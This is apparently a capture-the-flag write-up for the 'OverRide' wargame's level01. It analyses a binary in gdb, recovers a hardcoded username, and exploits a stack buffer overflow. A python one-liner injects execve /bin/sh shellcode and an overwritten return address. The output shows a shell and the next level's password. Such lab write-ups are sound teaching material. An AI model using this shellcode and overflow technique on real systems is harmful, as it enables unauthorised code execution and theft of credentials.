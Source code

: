 [README](../README.md)
# level01

```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...

```

## gdb analysis
- in main there are 2 fgets call, the first for the username and the second for password. the first buffer of first fgets is passed to the following function to verify if username is correct:
`0x0804852d <+93>:	call   0x8048464 <verify_user_name>`
- (gdb) disas 0x8048464: the function does compare the buffer with 7 characters (0x7) of a string stored at address 0x80486a8:
```
   0x0804847d <+25>:	mov    $0x80486a8,%eax
   0x08048482 <+30>:	mov    $0x7,%ecx

```
- ```
(gdb) x/s 0x80486a8
0x80486a8:	 "dat_wil"
```
- we have username. 
- second fgets buffer for the user input password expose a vulnerability because it is bigger ( `0x08048565 <+149>:	movl   $0x64,0x4(%esp)`) than the stack frame (`  0x080484d8 <+8>:	sub    $0x60,%esp
`) => 0x64 bytes vs 0x60 bytes = buffer is 100 bytes and stack frame is 96
- the logic of checking the return of verify_user_pass called  at <+176> is not correct , because the return stored in eax is compared to 0X0 (0=success) and even if the function return 0 we jump (je) to <+199> where the "nope..." at address 0x804871e is puts.

## payload
- we find the offset of second fgets buffer using a pattern generator:
```
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
=> offset is 80 bytes
- we find the address of first fgets buffer:
```
0x08048521 <+81>:	movl   $0x804a040,(%esp)
0x08048528 <+88>:	call   0x8048370 <fgets@plt>
```
=> 0x804a040
- we want to overflow the buffer of second gets with shellcode, to do so we need to craft the payload with: corect username to pass to second fgets buffer + shell code + padding of 80 to overflow the buffer and execute the shellcode + address of buffer of first fgets + 7 characters (the n. of characters of username dat_wil) to overwrite the return address (writing in eip) and redirect the execution flow back to a valid part of the program after the shellcode has executed:
```
level01@OverRide:~$ python -c "print 'dat_wil' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + '\n' + 'A'*80 + '\x47\xa0\x04\x08'" > /tmp/exploit
level01@OverRide:~$ cat /tmp/exploit - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

